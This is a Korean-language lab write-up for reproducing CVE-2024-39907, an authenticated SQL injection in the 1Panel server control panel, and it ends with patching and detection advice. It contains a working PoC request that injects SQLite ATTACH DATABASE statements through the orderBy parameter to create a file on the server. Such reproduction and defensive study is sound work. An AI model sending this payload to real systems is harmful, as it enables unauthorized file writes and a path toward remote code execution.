


# 1Panel 제어판 인증 후 SQL 인젝션 (CVE-2024-39907)


1Panel은 그래픽 인터페이스를 통해 서버를 관리할 수 있도록 지원하는 웹 기반 Linux 서버 관리 제어판입니다.

CVE-2024-39907은 1Panel 제어판에 존재하는 여러 SQL 인젝션 취약점의 집합입니다. 이 취약점들은 1Panel의 여러 인터페이스에서 발견되며, 입력값 검증이 충분하지 않아 공격자가 임의의 파일을 작성하고 최종적으로 원격 코드 실행(RCE)에 이를 수 있습니다. 이 취약점은 1Panel v1.10.9-lts 이하 버전에 영향을 미치며, v1.10.12-lts에서 패치되었습니다.

참고 자료:

- <https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml>
- <https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-5grx-v727-qmq6>
- <https://hub.docker.com/r/moelin/1panel>

## 취약 환경 구성

다음 명령을 실행하여 취약한 1Panel v1.10.10-lts 환경을 시작합니다.

```shell
docker compose up -d
```

서버가 시작되면 다음 기본 인증 정보를 사용하여 `http://your-ip:10086/entrance`에 접속합니다.

- 포트: `10086`
- 사용자 이름: `1panel`
- 비밀번호: `1panel_password`
- 접속 경로: `entrance`

## 취약점 재현

기본 인증 정보로 1Panel 제어판에 로그인합니다. `/api/v1/hosts/command/search` 엔드포인트의 `orderBy` 매개변수에 적절한 입력값 검증이 없어 SQL 인젝션 공격이 가능합니다.

취약점을 재현하려면 다음과 같은 악의적인 POST 요청을 전송합니다.

```http
POST /api/v1/hosts/command/search HTTP/1.1
Host: your-ip:10086
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Cookie: psession=your-session-cookie
Connection: close
Content-Type: application/json
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

`orderBy` 매개변수에 포함된 악성 페이로드는 SQLite의 `ATTACH DATABASE` 기능을 악용하여 서버 파일 시스템에 임의의 파일을 생성합니다. 이를 통해 SQL 인젝션이 성공했음을 확인할 수 있습니다. 요청이 처리되면 1Panel 백엔드는 주입된 SQL 명령을 별도의 검증 없이 실행하므로 취약점의 존재와 악용 가능성이 확인됩니다.



이러한 데이터베이스 조작 명령이 성공적으로 실행된다는 사실은 해당 SQL 인젝션 취약점이 잠재적으로 원격 코드 실행까지 이어질 수 있음을 보여줍니다.

## 실행 결과

PoC 요청을 전송한 뒤 1Panel 컨테이너 내부에서 다음 명령을 실행하여 `/tmp/randstr.txt` 파일의 생성 여부를 확인합니다.

```shell
docker compose exec 1panel ls -l /tmp/randstr.txt
```

`/tmp/randstr.txt` 파일이 출력되면 `orderBy` 매개변수에 삽입한 SQL 구문이 실행되어 임의 파일 생성에 성공한 것입니다.



## 대응 방안

- 취약한 1Panel을 보안 패치가 적용된 `v1.10.12-lts` 이상 버전으로 업데이트합니다.
- 외부 입력값을 SQL 문의 정렬 기준이나 식별자에 직접 결합하지 않고, 서버에서 허용한 필드 이름만 선택할 수 있도록 허용 목록(allowlist)을 적용합니다.
- 데이터베이스 질의에는 가능한 경우 매개변수화된 쿼리와 준비된 문장(prepared statement)을 사용합니다.
- 관리 페이지와 API를 인터넷에 직접 노출하지 않고 방화벽, VPN 또는 접근 제어 목록을 이용해 신뢰할 수 있는 관리 네트워크에서만 접근하도록 제한합니다.
- 관리자 계정에 강력한 비밀번호를 설정하고 세션 쿠키를 안전하게 관리하며, 불필요하거나 장시간 유지되는 로그인 세션을 종료합니다.
- 1Panel 및 웹 서버 로그에서 `/api/v1/hosts/command/search` 요청과 `ATTACH DATABASE`, 세미콜론 등 비정상적인 SQL 구문을 점검합니다.
- 서버 파일 시스템에서 비정상적으로 생성된 파일을 조사하고, 침해가 의심되면 자격증명과 세션을 폐기한 뒤 신뢰할 수 있는 백업을 기반으로 복구합니다.

